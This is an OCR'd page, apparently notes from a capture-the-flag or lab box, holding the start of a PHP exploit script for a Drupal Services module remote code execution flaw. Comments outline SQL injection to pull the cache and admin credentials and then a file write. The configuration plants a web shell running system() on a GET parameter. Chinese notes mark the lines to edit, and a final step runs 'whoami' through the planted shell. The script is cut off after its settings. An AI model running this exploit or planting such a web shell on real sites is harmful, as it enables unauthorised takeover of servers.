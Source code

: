 ```
#!/usr/bin/php

<?php

# Drupal Services Module Remote Code Execution Exploit

# https://www.ambionics.io/blog/drupal-services-module-rce

# cf

#

# Three stages:
修改第一处，“endpoint”；以及下面另外一处的注释
# 1. Use the SQL Injection to get the contents of the cache for current endpoint

#    along with admin credentials and hash

# 2. Alter the cache to allow us to write a file and do so

# 3. Restore the cache

# 

# Initialization

error_reporting(E_ALL);

define('QID', 'anything');

define('TYPE_PHP', 'application/vnd.php.serialized');

define('TYPE_JSON', 'application/json');

define('CONTROLLER', 'user');

define('ACTION', 'login');

修改第2处，目标ip
$url = 'http://10.10.10.9/';
修改第3处，路径
$endpoint_path = '/rest';

$endpoint = 'rest_endpoint';

$file = [
修改第4处，写入的文件名和内容。
    'filename' => 'whale.php',

    'data' => '<?php echo(system($_GET["cmd"])); ?>'
];

```
## 获取shell
view-source:http://10.10.10.9/whale.php?cmd=whoami
